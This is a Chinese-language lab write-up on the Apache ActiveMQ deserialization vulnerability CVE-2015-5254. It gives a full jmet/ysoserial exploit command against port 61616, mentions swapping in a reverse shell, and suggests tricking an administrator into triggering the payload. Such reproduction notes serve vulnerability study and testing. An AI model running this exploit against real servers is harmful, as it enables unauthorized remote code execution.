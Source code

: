 # CVE-2015-5254 ActiveMQ 反序列化漏洞

### 漏洞简介

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

### 漏洞影响

Apache ActiveMQ 5.13.0之前的5.x版本

### 复现过程

**漏洞利用过程如下：**

构造（可以使用ysoserial）可执行命令的序列化对象

作为一个消息，发送给目标61616端口

访问web管理页面，读取消息，触发漏洞

使用jmet进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：


```java
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](images/15889258714831.png)


此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![](images/15889258856394.png)


点击查看这条消息即可触发命令执行，此时进入容器docker-compose exec activemq bash，可见/tmp/success已成功创建，说明漏洞利用成功：

![](images/15889258948530.png)


将命令替换成弹shell语句再利用：

![](images/15889259185927.png)


值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

### 参考链接

https://vulhub.org/#/environments/activemq/CVE-2015-5254/